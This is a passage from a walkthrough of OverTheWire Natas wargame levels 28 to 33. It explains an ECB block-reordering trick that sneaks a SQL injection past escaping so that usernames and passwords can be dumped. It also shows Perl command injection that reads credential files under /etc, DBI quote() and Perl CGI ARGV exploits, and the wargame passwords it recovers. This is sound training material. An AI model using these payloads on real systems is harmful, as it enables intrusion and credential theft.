c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=  
```
We can see, that two lines become the same at the count of 106. If we inspect the next few numbers, we can see that they are still the same, and only the last line changes. If we reach the value of 154, the following happens:

```text
154  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=  
```

The repeating line now appears three times. 154-106=48. It means that the block size of this cipher is 48. If that's true, the repeating string should appear at the line ((106-48) = 58), too. Let's check it:  

```text
58
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=  
```


We did found to repeating text, and also this is the first time, that this string appears in the results. The reason for that, that with 58 sent "A"-s, it is the first time that we've filled a block with only "A". One block has a length of 48, so 10 "A"-s remain. The first 10 "A"-s are in the first block. So, result 58 looks the following:

```text
58  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy unknown text + ("A" * 10)  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr ("A" * 48)  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=                     unknown text  
```


Following the same pattern, we can identify result 106 and 154, too:  

```text
106  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy unknown text + ("A" * 10)  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr ("A" * 48)  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr ("A" * 48)  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=                     unknown text  
```

```text
154  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy unknown text + ("A" * 10)  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr ("A" * 48)  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr ("A" * 48)  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr ("A" * 48)  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=                     unknown text  
```
At the beginning, we mentioned that there is a possible escape mechanism on the server, probably a '\' character, that renders all of our double and single quotes as basic strings. But, if we assume that the ciphertext contains the whole query, we need to somehow remove the escape string. For that, we need to somehow visualize, how the query looks. Let's use number 58 for this:

```text
58  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy SELECT joke from joke WHERE joke LIKE '%AAAAAAAAAA  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=                     %'  
```  
Of course, we do not know any column, or table names, this is just a pure assumption, but that'll do for now. We can also visualize, what happens with our string, if we try to do a basic SQL injection on it. For example, if I append `' OR 1 #` to the beginning of the string, it becomes like


```text
58  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy SELECT joke from joke WHERE joke LIKE '%\' OR 1#   
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=                     AAAAAAAA%'  
```

As you can see, our sql injection becomes pretty useless, so we need to somehow remove that backslash from the query, but still be able to run the query.

There is another file, named `task28_part_2.php`.  As you can see, we send the following string:  
```text
                                                         'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
The whitespaces are an important part in the string. For start, let's focus on what's happening in the query with this kind of input:

```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb unknown text + (" " * 10)  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL (" " * 47) + "\"  
Au9R3t9kfPvogjx3sLoP4vYz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr "'" + (47 * "A")  
NjNpR93/Bz0TLCI5HmVRCMqM9OYQkTq645oGdhkgSlo=                     "A" + unknown text  
```
The first block contains the beginning of the query, which is unknown to us, plus 10 whitespaces. Remember, previously we had 10 "A"-s here, so our task is to simply retain the values here.
The second block is more interesting, however, because it contains our backslash. If there would be no escaping mechanism, the second block's content would be: `                                               '`, so 47 empty spaces, and a single quote. But becase the escaping mechanism is in place, it pushes down the single quote to the next block. Thanks to this, the third block contains the single quote, and 47 "A"-s. The last block contains one "A", and other unknown text. With this method, we can successfully eliminate the escaping of single quotes. Keep in mind, that since this is an ECB encrytion, we can remove,replace the blocks, since they are not dependent on the next/previous block. With this information, we need to craft a query, that we can use, find out what's happening in the server, what tables are there, what columns are there. But first, let's try to do something like this:  
```sql
UNION ALL SELECT @@version;#
```

With this command, we get the version number of the current operating system, and we use the `UNION` command, to concat the output of this command, with the jokes that the system can provide for us. We don't care about the jokes however, we just simply need to connect somehow the output of `SELECT @@version` to the output of the server's query. Let's try something like this:  
```text
                                                         '                    UNION ALL SELECT @@version;#
```


A sample query can be found for this in the file, named `task28_part_3.php`.  

The query string should be the following:  
```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL  
2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZCy2L+ujugTc3uskYy+0vQP  
/gPRS5ySIqJcuLn1nM88m8qM9OYQkTq645oGdhkgSlo=  
```  
After url encoding this string, and pasting it after 'http://natas28.natas.labs.overthewire.org/search.php/?query=' however, we recieve no results. But that's normal, we just have to work with this string a little bit. If you rememver, the backslash is still in there, so we need to remove is. The backslash should be in the second with, with 47 whitespaces as well.  So, after removing the '1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL' block, and url encoding the remaning strings, you should get a query like this:  

```text
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZCy2L%2BujugTc3uskYy%2B0vQP%2FgPRS5ySIqJcuLn1nM88m8qM9OYQkTq645oGdhkgSlo%3D
```

The url you need to enter looks like this:  
```text
http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZCy2L%2BujugTc3uskYy%2B0vQP%2FgPRS5ySIqJcuLn1nM88m8qM9OYQkTq645oGdhkgSlo%3D
```

Now, if you visit this url, you can see the following, or similar:  

```text
8.0.32-0ubuntu0.22.04.2 
```

That is certainly not from the 'Whack Computer Joke Database', but this is the output of `SELECT @@version;#`.  

Following the same rules, let's try something else!  
```sql
                                                         '                    UNION ALL SELECT CONCAT(TABLE_SCHEMA,TABLE_NAME, COLUMN_NAME) from information_schema.columns;#
```
A sample query can be found for this in the file, named `task28_part_4.php`.  


If you run this in the browser, if wont work, however, we only need the query, to modify it a little bit:  

```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL  
2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p+eDzmMHzd4Rv+x  
L8i3+0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJ  
qxywQ/RZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3R  
e3usplXymKMh6Q4/emDU2A==  
```

Following the same rules as before, we only need to remove the second column, and reassemble the ciphertext, and url encode it.

So, after reassembling, leaving the second block out:  
```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p+eDzmMHzd4Rv+xL8i3+0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJqxywQ/RZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3Re3usplXymKMh6Q4/emDU2A==
```
After url encoding:  
```text
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p%2BeDzmMHzd4Rv%2BxL8i3%2B0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJqxywQ%2FRZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3Re3usplXymKMh6Q4%2FemDU2A%3D%3D
```
The full URL should be:  
```text
http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAt16kh1p%2BeDzmMHzd4Rv%2BxL8i3%2B0SgWwhBxzkIDnHIo1xdYFdVyHGd1t8qHYFWvyTfRrdjoFiiuFN8Qe44ZIrJqxywQ%2FRZbvzB2Pl7IXvPLZlAdNDYzIkHvT39dSjNSdtCV6ND2q2q8sDjodcc4D3Re3usplXymKMh6Q4%2FemDU2A%3D%3D
``` 

should give us a more interesting result. It starts something like this:  

```text
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSGRANTEE  
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSGRANTEE_HOST  
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSHOST  
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSIS_DEFAULT  
```


But the last one are more interesting:  

```text
natas28jokesjoke  
natas28userspassword  
natas28usersusername  
```

Looks like, we have a database named 'natas28', with a table, named 'users' and 'jokes' (the table where the original query runs). The 'jokes' table contains a column named 'joke', and the 'users' table contains two columns, named 'password' and 'username'. We are interested in these columns, of course. Let's craft another query with the following content:  
```sql
                                                         '                    UNION ALL SELECT CONCAT(username,password) FROM users;#
```
A sample query can be found for this in the file, named `task28_part_5.php`.  
Again, the process is the same. Let's look at the results:  

```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL  
2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r+PvLUttg8K8aLhTd  
bearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP+RVBwJjEus3F7ZNXVk5RBd1+  
ZNDcyGglNpKt/L03ltG/ig==  
```


So, after reassembling, leaving the second block out:  
```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r+PvLUttg8K8aLhTdbearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP+RVBwJjEus3F7ZNXVk5RBd1+ZNDcyGglNpKt/L03ltG/ig==
```
After url encoding:  
```text
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r%2BPvLUttg8K8aLhTdbearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP%2BRVBwJjEus3F7ZNXVk5RBd1%2BZNDcyGglNpKt%2FL03ltG%2Fig%3D%3D
```

The full URL should be:  
```text
http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r%2BPvLUttg8K8aLhTdbearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP%2BRVBwJjEus3F7ZNXVk5RBd1%2BZNDcyGglNpKt%2FL03ltG%2Fig%3D%3D
```

The result is the following:  
```text
natas29pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno
```

This is the username, and the password together, so the password comes after 'natas29'.  

The password for level 29 is:  
`pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno`

**Natas level 29**  
http://natas29.natas.labs.overthewire.org/   
username: `natas29`  
password: `pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno`  

Okay, we have no source again in this page. Also, right clicking is blocked, but we can still do F12, so no worries.Let's inspect the source code. We have the following line, which is interesting:  
```html
<form action="index.pl" method="GET">  
```
This means that we have a Perl file on the server, so it's going to be a bit different than the previous ones. The "GET" part also means that we have something in the url. Let's choose a value in the select element. After that, we can see that the url has changed:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=perl+underground+3
```

Looks like it tries to import content from a file. Let's try to modify the URL parameter with the following:  
```bash
|ls;
```  
After url encoding this, the url should be this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%3B
```
The result should be the following:  
```text
index.pl perl underground 2.txt perl underground 3.txt perl underground 4.txt perl underground 5.txt perl underground.txt
```

Yes, looks like it's working! The `ls` command runs successfully, and lists all the files in the current directory. Let's try to modify it even further:  

```bash
|ls ../;
```
With the following command, the url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%3B
```
```text
natas0 natas1 natas10 natas11 natas12 natas13 natas14 natas15 natas16 natas17 natas18 natas19 natas2 natas20 natas21 natas21-experimenter natas22 natas23 natas24 natas25 natas26 natas27 natas28 natas29 natas3 natas30 natas31 natas32 natas33 natas34 natas4 natas5 natas6 natas7 natas8 natas9
```

Looks promising. Keep forward.  
```bash
|ls ../../;
```
The url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%3B
```

```text
html natas
```

Looks like the next directory will be a www, or var. Let's find out:  

```bash
|ls ../../../;
```
The url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%3B3B
```

```text
backups cache crash lib local lock log mail opt run snap spool tmp www
```

Another time...  
```bash
|ls ../../../../;
```

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%3B
```

```text
bin boot dev etc home lib lib32 lib64 libx32 lost+found media mnt natas33 opt proc root run sbin snap srv sys tmp usr var
```

Okay, so we're at '/' finally. Let's dive into 'etc'

```bash
|ls ../../../../etc/;
```
The url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%3B
```

We get a lot of content outputted here. The most important us is the following part:    

```text
natas_pass natas_session_toucher natas_webpass needrestart netconfig
```
Let's progress into 'natas_webpass':  
```bash
|ls ../../../../etc/natas_webpass/;
```
The encoded url looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnatas%5Fwebpass%3B
```

Well, something's not good. We got a strange output:  
```text
meeeeeep!
```

Let's try another directory, then:  

```bash
|ls ../../../../etc/X11/;
```
The url encoded looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2FX11%2F%3B
```
```text
Xsession.d xkb
```
Looks like this one works. Maybe they locked us out from that directory? Let's try natas_webpass then
```bash
|ls ../../../../etc/natas_webpass/;
```
The encoded url looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnatas_webpass%2F%3B
```
Again:  
```text
meeeeeep!
```

Looks like they don't want us to go into a directory, when the name contains 'natas'. Let's find out what's happening here:
```bash
| cat index.pl;
```
The encoded url looks like this: 
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7C%20cat%20index%2Epl%3B
```

You receive a bit weird output, since the page tries to display the same page as displayed already, but the important part is the following in the code:  

```perl
f($f=~/natas/){ print "meeeeeep!"; }
```

We do not need to be az expert in perl, to understand what's happening here:  If the path contains '/natas/' print the text that we've seen earlier.

We have multiple solutions to bypass this:  
```bash
|ls ../../../../etc/nat''as_webpass/;
```
The encoded url looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnat%27%27as%5Fwebpass%2F%3B
```
or  
```bash
|ls ../../../../etc/nat*s_webpass/;
```
The encoded url looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnat%2As%5Fwebpass%2F%3B
```

```bash
|ls ../../../../etc/nat[a]s_webpass/;
```

The encoded url looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnat%5Ba%5Ds%5Fwebpass%2F%3B
```

The output will be the same:  
```text
natas0 natas1 natas10 natas11 natas12 natas13 natas14 natas15 natas16 natas17 natas18 natas19 natas2 natas20 natas21 natas22 natas23 natas24 natas25 natas26 natas27 natas28 natas29 natas3 natas30 natas31 natas32 natas33 natas34 natas4 natas5 natas6 natas7 natas8 natas9
```

We need the content of natas30, so...  
```bash
|cat ../../../../etc/nat*s_webpass/nat*s30;
```

`The encoded url looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Ccat%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnat%2As%5Fwebpass%2Fnat%2As30%3B
```
```text
Gz4at8CdOYQkkJ8fJamc11Jg5hOnXM9X
```
  

The password for level 30 is:  
`Gz4at8CdOYQkkJ8fJamc11Jg5hOnXM9X`


**Natas level 30**  
http://natas30.natas.labs.overthewire.org/   
username: `natas30`  
password: `Gz4at8CdOYQkkJ8fJamc11Jg5hOnXM9X`  

Looks like we have a source code, this time. Let's look at it, because we need to do some kind of SQL injection.  

We have to deal with Perl again, as we can see in the beginning:  

```bash
#!/usr/bin/perl
```

The script checks for two values in the POST: 'username' and 'password'. If they are present, it inserts them to a query, which is the following:  

```perl
my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password'));
```

The query looks really straightforward, but we have one important information: The parameters are inserted with a function, named 'quote'. Let's look it up what's this:

https://www.oreilly.com/library/view/programming-the-perl/1565926994/re43.html

What's important for us, is the following: Quotes a string literal for use as a literal value in an SQL statement, by escaping any special characters (such as quotation marks) contained within the string and adding the required type of outer quotation marks.  

So basically it escapes our special characters, and makes every SQL injection attack practically impossible.

After another round of search, I've found this:  

https://metacpan.org/release/TIMB/DBI-1.637/view/DBI.pm

The most important part is the following:  
'If $data_type is supplied, it is used to try to determine the required quoting behaviour by using the information returned by "type_info". As a special case, the standard numeric types are optimized to return $value without calling type_info.'

So, if we have the following:  

```perl
$sql = $dbh->quote($value, $data_type);
```

So, we need to create the 'password' as an array with two values:

The fist value should be the SQL injection, which bypasses the SQL query's basic check mechanism
And another one, with a value of 4.

Our final value we need to send should be something like this:

`username=natas31&password='test' OR 1 #&password=4`

So, the key-value pairs are the followings:  
- `username=natas31`
- `password='test' OR 1 #`
- `password=4`

With these parameters, we can bypass the security mechanism of the `quote` function.  
Thanks to this addition, the query that runs in the background should look like this:

```sql
Select * FROM users where username ="natas31" and password = 'test' OR 1 #; 
```  
The password for level 31 is:  
`AMZF14yknOn9Uc57uKB02jnYuhplYka3`

**Natas level 31**  
http://natas31.natas.labs.overthewire.org/   
username: `natas31`  
password: `AMZF14yknOn9Uc57uKB02jnYuhplYka3`  

Okay, so we need to work out some vulnerabilities in perl again. The site's main purpose is the upload a csv file, and the program should pretty print it for ourselves.

For testing purposes, let's upload the following file:  
```text
First Name,Last Name
Jack,McGinnis
John,Doe
```

  

Well, it does the job for us. Maybe, let's try to modify the csv file's content a little bit?


```text
First Name,Last Name
system("ls -l");,exec("ls -l");
```

  

Looks like it is still not working. We need to find another way then.

By digging into a perl security and filehandler concepts, I encountered to [this](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf) article.

The contents of the PDF greatly describes the main security holes of Perl's data type handling, but the most important part for us starts from page 21. Perl has a bug in it's CGI module, which can be useful for us. To understand, let's look at the source code:

The most important lines for us are the following:  
```perl
if ($cgi->upload('file')) {
```

This line checks if we did upload a file, with a parameter name `file`. So we need to fulfill this criteria first.

```perl
my $file = $cgi->param('file');
```

This line takes the value of the parameter `file`, and puts it into a variable called `file`.

Now, the solution for our problem is located at page 24 of the pdf, which is:  


> upload() is supposed to check if the file  
> parameter is an uploaded file  
>  In reality, upload() checks if ONE of file values  
> is an uploaded files  

So, with this vulnerability, we have the option to upload a file, and a parameter with the same name(in our case, with the name `file`).  

The next important thing to know is located at page 25 of the PDF:  

> param() returns a LIST of ALL the parameter values  
>  But only the first value is inserted into $file  

So, it means that the order of our parameters we are going to send is important.

The next step we need to take into account is the following:

> $file will be assigned our scalar value instead of the  
> uploaded file descriptor  

So, if we upload one file parameter, with a name `file`, and one string parameter, with a name `file`, and the string goes first to the server, the `$file` variable's value is going to be the string parameter we've just sent to the server. Let's look forward.  

The `while (<$file>)` line would read the values of our csv file under normal circumstances, but now we can use it to run specific commands on the server. Now, as the PDF mentions, the `<$file>` does not work with strings, unless the string is `ARGV`. ARGV is just a regular array in perl, however, this array is populated by Perl when the program starts. Now, if we upload a string with a parameter name `file`, and with a value of `ARGV`, the script loops through the parameters we give to the perl script. Where can we send this parameters? In the URL!  

```text
http://natas31.natas.labs.overthewire.org/index.pl?/etc/natas_webpass/natas32
```

Of course, we need to create a cURL request which contains the necessary parameters we've mentioned before. Let's look at the request, and explain it step by step:

```php
$boundary = "----WebKitFormBoundaryFgVNNE987xWnwuo7";
$eol = "\r\n";
$bodyData = "";
$bodyData .= "--".$boundary.$eol;
$bodyData .= "Content-Disposition: form-data; name=\"file\";".$eol;
$bodyData .= "Content-Type: text/plain".$eol.$eol;
$bodyData .= "ARGV".$eol;
$bodyData .= "--".$boundary.$eol;
$bodyData .= "Content-Disposition: form-data; name=\"file\"; filename=\"addresses.csv\"".$eol;
$bodyData .= "Content-Type: text/csv".$eol.$eol;
$bodyData .= "abcde".$eol;
$bodyData .= "--".$boundary.$eol;
$bodyData .= "Content-Disposition: form-data; name=\"submit\"".$eol.$eol;
$bodyData .= "Upload".$eol;
$bodyData .= "--".$boundary."--";
```

With this part of the code, we define the order of our parameters: `file`, which contains the string "ARGV", `file`, which is contains a filename, to distinguish from the simple, string value. After that, just to be sure, we also send the `submit` value. But what is this FormBoundary, and why do we have to use it?  

In a multipart message, every item is separated by a boundary marker. Every webkit based browser puts the string "WebKitFormBoundary" to the name of the boundary. We can modify this boundary to our needs, but we need to inform cURL about this change, using the following header:  
```php
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
    "Content-Type: multipart/form-data; boundary={$boundary}",
    "Content-Length: " . strlen($bodyData)
    ));
```

By giving the `boundary={$boundary}` flag, we've notified cURL that we have a different form boundary. The syntax of the previous parts needs to be precise, otherwise the processing of the parameters can fail. 

By sending the cURL request at file, named `task31.php`, we get the following result back(cropped):

```html
<h1>natas31</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>Yp5ffyfmEdjvTOwpN5HCvh7Ctgf9em3G
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

The password for the next level is:

`Yp5ffyfmEdjvTOwpN5HCvh7Ctgf9em3G`


**Natas level 32**  
http://natas32.natas.labs.overthewire.org/   
username: `natas32`  
password: `Yp5ffyfmEdjvTOwpN5HCvh7Ctgf9em3G`  

Our task here is basically the same, however, we need to modify the url parameters a little bit. We cannot access the password directly, so we need to figure out where are we in the server:

We need to url encode some commands. Let's start with the following:  

`ls |` is going to be:

```php
$url = "http://natas32.natas.labs.overthewire.org/index.pl?ls%20%7C";
```
Let's try to run `task32.php` with this URL, and inspect the results:  

The response is the following:  
```html
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Nothing interesting here. Let's change our command:  

`ls .. |` is going to be:

```php
$url = "http://natas32.natas.labs.overthewire.org/index.pl?ls%20%2E%2E%20%7C";
```
The response is the following:  
```html
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>..:
</th></tr><tr><td>natas0
</td></tr><tr><td>natas1
</td></tr><tr><td>natas10
</td></tr><tr><td>natas11
</td></tr><tr><td>natas12
</td></tr><tr><td>natas13
</td></tr><tr><td>natas14
</td></tr><tr><td>natas15
</td></tr><tr><td>natas16
</td></tr><tr><td>natas17
</td></tr><tr><td>natas18
</td></tr><tr><td>natas19
</td></tr><tr><td>natas2
</td></tr><tr><td>natas20
</td></tr><tr><td>natas21
</td></tr><tr><td>natas21-experimenter
</td></tr><tr><td>natas22
</td></tr><tr><td>natas23
</td></tr><tr><td>natas24
</td></tr><tr><td>natas25
</td></tr><tr><td>natas26
</td></tr><tr><td>natas27
</td></tr><tr><td>natas28
</td></tr><tr><td>natas29
</td></tr><tr><td>natas3
</td></tr><tr><td>natas30
</td></tr><tr><td>natas31
</td></tr><tr><td>natas32
</td></tr><tr><td>natas33
</td></tr><tr><td>natas34
</td></tr><tr><td>natas4
</td></tr><tr><td>natas5
</td></tr><tr><td>natas6
</td></tr><tr><td>natas7
</td></tr><tr><td>natas8
</td></tr><tr><td>natas9
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Looks like this one is working! Let's try to change, again:  

`ls ./ |` is going to be:

```php
$url = "http://natas32.natas.labs.overthewire.org/index.pl?ls%20%2E%2F%20%7C";
```

The response is the following:  
```html
<table class="sortable table table-hover table-striped"><tr><th>./:
</th></tr><tr><td>bootstrap-3.3.6-dist
</td></tr><tr><td>getpassword
</td></tr><tr><td>index-source.html
</td></tr><tr><td>index.pl
</td></tr><tr><td>jquery-1.12.3.min.js
</td></tr><tr><td>sorttable.js
</td></tr><tr><td>tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

Now that's something! That `getpassword` is definitely interesting. Let's take a look at it:

`./getpassword |` is going to be:

```php
$url = "http://natas32.natas.labs.overthewire.org/index.pl?%2E%2Fgetpassword%20%7C";
```

The response is the following:  
```html
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>APwWDD3fRAf6226sgBOBaSptGwvXwQhG
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
```

Bingo!  
The password for the next level is:  
`APwWDD3fRAf6226sgBOBaSptGwvXwQhG`

**Natas level 33**  
http://natas33.natas.labs.overthewire.org/   
username: `natas33`  
password: `APwWDD3fRAf6226sgBOBaSptGwvXwQhG`  

Let's look at the source code provided for us. Looks like we have a class, called Executor:  

```php
class Executor{
    private $filename=""; 
    private $signature='adeafbadbabec0dedabada55ba55d00d';
    private $init=False;
```

If we upload a file using the given input, the server instantiates this class:  

```php
session_start();
if(array_key_exists("filename", $_POST) and array_key_exists("uploadedfile",$_FILES)) {
    new Executor();
